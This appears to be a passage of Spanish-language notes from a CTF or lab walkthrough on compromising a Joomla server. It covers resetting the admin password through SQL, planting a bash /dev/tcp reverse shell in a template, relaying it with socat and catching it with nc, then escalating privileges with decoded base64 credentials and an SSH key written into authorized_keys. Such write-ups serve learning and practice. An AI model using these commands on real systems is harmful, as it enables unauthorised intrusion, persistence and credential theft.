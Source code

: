 Entonces cambiamos la contraseña en la BBDD
1. Creamos la contraseña
```
echo -n "password123" | md5sum
```
Con la misma técnica modificamos la contraseña
- USE joomla; update joomla_users set password='md5hash' where username='site_admin';

## Joomla Exploitation
Ahora tenemos acceso a la administración de Joomla
1. Modificamos una template (por ejemplo error.php) para añadir una revershell
```
system("bash -c 'bash -i >& /dev/tcp/<ip1>/1111 0>&1'");
```
![[Pasted image 20240421202858.png]]
2. Con la herramienta Socat redirigimos el trafico que se dirige a 'ip1'
```
./socat TCP-LSITEN:1111, fork TCP:<ipa>:443
```
3. Nos ponemos en escucha por el puerto 443 para recibir la Shell
``` 
nc -nlvp 443
```
[-] ==pwned!==
## Ajustar terminal
```
script /dev/null -c bash
```
ctrl + z
```
stty raw -echo; fg
```
```
	reset xterm
```
```
export TERM=xterm
export SHELL=bash
```
Ajustar proporciones
```
stty rows 44 columns 184
```
# Privilege Escalation
Un usuario del sistema tiene la contraseña en .creds.txt en base64
```
cat .creds.txt | base64 -d; echo
```
Nos conectamos con su
Existe un ejecutable su_cp para hace copia de archivos que le pertenece a otro usuario. 
1. Con el su_cp copiamos la clave pública del atacante en .ssh/authorized_keys
